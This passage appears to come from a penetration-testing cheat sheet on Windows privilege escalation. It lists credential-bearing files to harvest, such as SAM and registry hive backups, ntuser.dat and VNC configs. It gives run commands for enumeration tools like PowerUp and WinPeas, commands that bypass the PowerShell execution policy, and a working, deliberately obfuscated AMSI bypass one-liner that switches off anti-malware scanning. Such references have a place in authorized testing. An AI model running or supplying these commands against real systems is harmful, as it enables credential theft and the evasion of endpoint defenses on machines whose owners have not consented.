 ### Other files

```bash
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
```

## PrivEsc Tools

- PowerUp
    - `import-module .\PowerUp.ps1`
    - `Invoke-AllChecks`
- Jaws
    - `import-module .\jaws-enum.ps1`
- WinPeas
    - `winpeas.bat`
- Watson
    - `watson.exe`
- CVE-2019-1388

```bash
# Run from CMD:
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

# Bypassing the PowerShell Execution Policy
powershell -ep bypass

# AMSI stands for Anti-Malware Scan Interface and was introduced in Windows 10.AMSI provides increased protection against the usage of some modern Tools,
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
